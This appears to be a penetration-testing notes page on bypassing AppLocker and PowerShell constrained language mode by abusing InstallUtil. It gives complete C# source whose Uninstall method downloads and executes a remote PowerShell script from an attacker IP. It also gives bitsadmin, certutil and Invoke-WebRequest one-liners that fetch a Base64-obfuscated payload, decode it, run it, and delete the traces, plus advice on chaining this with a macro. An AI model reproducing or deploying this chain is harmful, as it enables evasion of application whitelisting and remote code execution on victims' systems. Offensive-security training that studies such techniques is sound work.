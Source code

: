## The Need

We bypassed constrained language mode in PowerShell but ended up needing the ability to bypass the AppLocker executable rules for a C# application.

We will leverage InstallUtil, a command-line utility that allows us to install and uninstall server resources by executing the installer components in a specified assembly. Our goal is to reintroduce our PowerShell shellcode runner tradecraft in an AppLocker-protected environment.

We are only going to use the _uninstall_ method since the _install_ method requires administrative privileges to execute.

Our code will look as follows:
```Csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace CLMBypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }


    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "(New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/run.ps1') | IEX;"
			// or (New-Object System.Net.WebClient).DownloadString('http://192.168.49.135/clm.exem,'C:\\Windows\\Tasks\\clm.exe')
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
```


After compiling this code, if the executable is run by administrative privileges, the message will be displayed instead of our code execution.

To execute our shellcode we can run the following command:

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

However, to use instalutil, the executable needs to be on disk where it may detected, thus we'll obfuscate the executable while it is being downloaded with Base64 encoding and then decode it on disk.

We will store the base64 encoded executable on our attack box's web root and use the following code to download the executable, decode it, and run it.

```cmd
bitsadmin /Transfer myJob http://192.168.223.129/CLMBypass-b64.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\Bypass.exe && del C:\Windows\Tasks\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

```Powershell
bitsadmin /Transfer myJob http://192.168.49.110/CLMBypass-b64.txt C:\Windows\Tasks\enc.txt; certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\Bypass.exe; del C:\Windows\Tasks\enc.txt; C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```

Combine with macro with:
```powershell
Powershell iwr -uri http://192.168.49.83/applocker.txt -outfile C:\Windows\Tasks\enc.txt; Powershell certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\Bypass.exe; C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```
and

```powershell
Powershell del C:\Windows\Tasks\Bypass.exe; Powershell del C:\windows\tasks\enc.txt
```